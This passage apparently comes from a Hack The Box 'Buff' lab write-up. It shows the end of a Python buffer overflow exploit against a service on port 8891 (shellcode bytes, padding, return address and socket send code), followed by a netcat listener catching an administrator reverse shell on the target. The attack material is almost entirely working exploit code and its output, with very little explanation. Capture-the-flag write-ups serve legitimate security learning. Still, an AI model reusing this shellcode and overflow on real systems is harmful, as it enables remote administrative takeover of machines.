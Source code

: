 ```python
payload += b"\x73\x5f\xfd\x07\x4a\x90\xf0\x46\x8b\xcd\xf9\x1b"
payload += b"\x44\x99\xac\x8b\xe1\xd7\x6c\x27\xb9\xf6\xf4\xd4"
payload += b"\x09\xf8\xd5\x4a\x02\xa3\xf5\x6d\xc7\xdf\xbf\x75"
payload += b"\x04\xe5\x76\x0d\xfe\x91\x88\xc7\xcf\x5a\x26\x26"
payload += b"\xe0\xa8\x36\x6e\xc6\x52\x4d\x86\x35\xee\x56\x5d"
payload += b"\x44\x34\xd2\x46\xee\xbf\x44\xa3\x0f\x13\x12\x20"
payload += b"\x03\xd8\x50\x6e\x07\xdf\xb5\x04\x33\x54\x38\xcb"
payload += b"\xb2\x2e\x1f\xcf\x9f\xf5\x3e\x56\x45\x5b\x3e\x88"
payload += b"\x26\x04\x9a\xc2\xca\x51\x97\x88\x80\xa4\x25\xb7"
payload += b"\xe6\xa7\x35\xb8\x56\xc0\x04\x33\x39\x97\x98\x96"
payload += b"\x7e\x67\xd3\xbb\xd6\xe0\xba\x29\x6b\x6d\x3d\x84"
payload += b"\xaf\x88\xbe\x2d\x4f\x6f\xde\x47\x4a\x2b\x58\xbb"
payload += b"\x26\x24\x0d\xbb\x95\x45\x04\xf8\x23\xe6\xdf\x9e"
payload += b"\x3e\x66\x50\x3d\xa8\xf2\xf4\xd2\x4b\x88\xa8\x4b"
payload += b"\xf2\x03\x0d\xe1\x74\xb0\xc2\x68\x10\x14\x73\x08"
payload += b"\xf6\xc1\xf3\xab\x26\x3b\x34\x1a\x17\x0b\x1a\x53"
payload += b"\x63\x45\x50\xb3\xbf\xa9\xa4\x83\x9f\xe4\xa1\xc3"
payload += b"\xbc\x9b\x4d\x2a\x27\x1c\xeb\x32"
overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8891))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

From there, it was as simple as setting up a netcat listener, running the script, and reaping the benefits.

```shell
┌─[matt@parrot]─[~/htb/buff]
└──╼$ sudo python3 cloudmebof.py
[sudo] password for matt:

...

┌─[matt@parrot]─[~/htb/buff]
└──╼$ nc -nvlp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.198] 49681
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
buff\administrator
C:\Windows\system32>cd c:\users\administrator\desktop
cd c:\users\administrator\desktop
c:\Users\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is A22D-49F7
Directory of c:\Users\Administrator\Desktop
18/07/2020 17:36 <DIR> .
18/07/2020 17:36 <DIR> ..
16/06/2020 16:41 1,417 Microsoft Edge.lnk
27/09/2020 18:36 34 root.txt
2 File(s) 1,451 bytes
2 Dir(s) 7,574,896,640 bytes free
c:\Users\Administrator\Desktop>
```
